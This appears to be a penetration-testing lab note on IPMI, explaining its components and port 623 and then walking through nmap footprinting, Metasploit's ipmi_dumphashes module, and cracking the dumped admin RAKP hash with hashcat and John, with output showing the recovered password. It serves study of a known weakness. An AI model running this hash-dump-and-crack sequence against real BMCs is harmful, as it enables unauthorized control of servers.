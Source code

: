 # 🟢 IPMI

### &#x20;IPMI is typically used in three ways:

* Before the OS has booted to modify BIOS settings
* When the host is fully powered down
* Access to a host after a system failure

The IPMI protocol was first published by Intel in 1998 and is now supported by over 200 system vendors, including Cisco, Dell, HP, Supermicro, Intel, and more. Systems using IPMI version 2.0 can be administered via serial over LAN, giving sysadmins the ability to view serial console output in band.

### To function, IPMI requires the following components:

* Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
* Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
* Intelligent Platform Management Bus (IPMB) - extends the BMC
* IPMI Memory - stores things such as the system event log, repository store data, and more
* Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus

&#x20;Many BMCs (including HP iLO, Dell DRAC, and Supermicro IPMI) expose a web-based management console, some sort of command-line remote access protocol such as Telnet or SSH, and the port 623 UDP, which, again, is for the IPMI network protocol.&#x20;

Below is a sample Nmap scan using the Nmap [ipmi-version](https://nmap.org/nsedoc/scripts/ipmi-version.html) NSE script to footprint the service.

```
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

**Metasploit Version Scan**

```
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.202.5
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 
```

```
use auxiliary/scanner/ipmi/ipmi_dumphashes 
set rhosts 10.129.202.5
run
```

```
[+] 10.129.202.5:623 - IPMI - Hash found: admin:7695808482000000bff21a6dc73c0720231565b2d2f1f7cd44912deef8eec08457c691efcde9f73ea123456789abcdefa123456789abcdef140561646d696e:235d2268c59c623daf0482a681afc35b3e821d0e
put the hash inside a file
```

```
hashcat -m 7300 HASH_admin.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

```
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_dumphashes) >> ls
[*] exec: ls

Desktop  HASH_admin.txt  install.sh  JOHN_FILE.txt  odat  oracle-instantclient-sqlplus_19.6.0.0.0-0parrot2_amd64.deb  Templates
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_dumphashes) >> john JOHN_FILE.txt
[*] exec: john JOHN_FILE.txt

Created directory: /home/htb-ac-51753/.john
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 256/256 AVX2 8x])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 10 candidates buffered for the current salt, minimum 32 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
trinity          (10.129.202.5 admin)
trinity          (10.129.202.5 admin)
trinity          (10.129.202.5 admin)
3g 0:00:00:10 DONE 2/3 (2024-01-12 22:05) 0.2955g/s 16331p/s 42160c/s 42160C/s 123456..9brooklyn
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

{% embed url="https://www.poplabsec.com/ipmi-penetration-testing/" %}

